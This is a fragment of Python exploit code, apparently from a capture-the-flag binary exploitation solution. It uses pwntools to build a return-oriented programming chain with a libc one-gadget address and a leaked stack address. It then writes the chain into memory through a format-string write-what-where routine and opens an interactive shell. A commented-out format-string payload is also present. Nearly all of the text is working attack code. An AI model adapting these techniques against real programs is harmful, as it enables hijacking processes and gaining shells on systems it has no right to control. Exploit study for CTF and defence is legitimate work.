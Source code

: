 ```python
        rop.r15 = libc.address+0xb8
        rop.raw(libc.address + 0xeeccc)

        ropAddr = stackLeak -0xfb0
        ropchain = rop.chain()

        ropchain = [ropchain[i:i+8] for i in range(0, len(ropchain), 8)]
        i = 0
        for x in ropchain:
            writeWhatWhere(ropAddr + (i*8), u16(x[0:2]))
            if i != 1:
                writeWhatWhere(ropAddr + (i*8) + 2, u16(x[2:4]))
            else:
                writeWhatWhere(ropAddr + (i*8) + 2, u16(x[2:4]),start=2)
            writeWhatWhere(ropAddr + (i*8) + 4, u32(x[4:]), size="int")
            i += 1


        #io.sendline(b"%c" * 46 + b"a" * 2 + b"%hhn" + b"%p - " * 620)
        io.interactive()
        break
    try:
        io.close()
    except:
        pass
    if noloop:
        break
```